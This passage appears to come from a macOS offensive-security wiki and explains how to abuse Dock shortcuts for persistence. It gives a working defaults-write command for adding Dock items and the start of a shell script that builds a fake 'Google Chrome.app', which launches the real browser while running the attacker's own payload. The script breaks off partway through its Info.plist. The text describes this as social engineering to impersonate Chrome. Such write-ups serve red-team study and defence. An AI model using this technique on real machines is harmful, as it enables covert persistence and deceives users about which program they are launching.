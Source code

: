 ### Dock shortcuts

Writeup: [https://theevilbit.github.io/beyond/beyond\_0027/](https://theevilbit.github.io/beyond/beyond\_0027/)

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
  * But you need to have installed a malicious application inside the system
* TCC bypass: [🔴](https://emojipedia.org/large-red-circle)

#### Location

* `~/Library/Preferences/com.apple.dock.plist`
  * **Trigger**: When the user clicks on the app inside the dock

#### Description & Exploitation

All the applications that appear in the Dock are specified inside the plist: **`~/Library/Preferences/com.apple.dock.plist`**

It's possible to **add an application** just with:

{% code overflow="wrap" %}
```bash
# Add /System/Applications/Books.app
defaults write com.apple.dock persistent-apps -array-add '<dict><key>tile-data</key><dict><key>file-data</key><dict><key>_CFURLString</key><string>/System/Applications/Books.app</string><key>_CFURLStringType</key><integer>0</integer></dict></dict></dict>'

# Restart Dock
killall Dock
```
{% endcode %}

Using some **social engineering** you could **impersonate for example Google Chrome** inside the dock and actually execute your own script:

```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
echo '#!/bin/sh
open /Applications/Google\ Chrome.app/ &
touch /tmp/ImGoogleChrome' > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>CFBundleExecutable</key>
    <string>Google Chrome</string>
    <key>CFBundleIdentifier</key>
    <string>com.google.Chrome</string>
    <key>CFBundleName</key>
    <string>Google Chrome</string>
```